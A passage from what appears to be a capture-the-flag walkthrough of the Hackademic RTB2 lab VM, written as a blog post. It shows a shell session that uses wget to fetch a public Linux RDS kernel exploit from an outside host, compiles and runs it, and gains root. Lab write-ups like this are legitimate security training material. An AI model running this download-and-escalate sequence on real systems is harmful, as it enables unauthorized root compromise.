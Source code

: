 {{< figure src="/images/posts/2012/hrt2_7.jpg" >}}

Now we've got a shell on the box as www-data.  A little enumeration...

```
$ whoami
www-data
$ uname -a
Linux HackademicRTB2 2.6.32-24-generic #39-Ubuntu SMP Wed Jul 28 06:07:29 UTC 2010 i686 GNU/Linux
```

Huzzah,[privilege](http://threatpost.com/en_us/blogs/linux-kernel-flaw-coughs-root-rights-102110) escalation time.  Funny enough, exactly the exploit we used for RTB1.

```
$ cd /tmp
$ ls
orbit-gdm
pulse-PKdhtXMmr18n
$ wget www.vsecurity.com/download/tools/linux-rds-exploit.c
--2012-11-19 06:01:56--  http://www.vsecurity.com/download/tools/linux-rds-exploit.c
Resolving www.vsecurity.com... 209.67.252.12
Connecting to www.vsecurity.com|209.67.252.12|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6435 (6.3K) [text/x-c]
Saving to: `linux-rds-exploit.c'

     0K ......                                                100% 83.6K=0.08s

2012-11-19 06:01:56 (83.6 KB/s) - `linux-rds-exploit.c' saved [6435/6435]

$ ls
linux-rds-exploit.c
orbit-gdm
pulse-PKdhtXMmr18n
$ gcc linux-rds-exploit.c -o sploit
$ ./sploit
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved rds_proto_ops to 0xe099e980
 [+] Resolved rds_ioctl to 0xe0998090
 [+] Resolved commit_creds to 0xc016dd80
 [+] Resolved prepare_kernel_cred to 0xc016e0c0
[*] Overwriting function pointer...
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved rds_proto_ops to 0xe099e980
 [+] Resolved rds_ioctl to 0xe0998090
 [+] Resolved commit_creds to 0xc016dd80
 [+] Resolved prepare_kernel_cred to 0xc016e0c0
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
$ whoami
root
$ cd /root
$ ls
Desktop
Key.txt
```
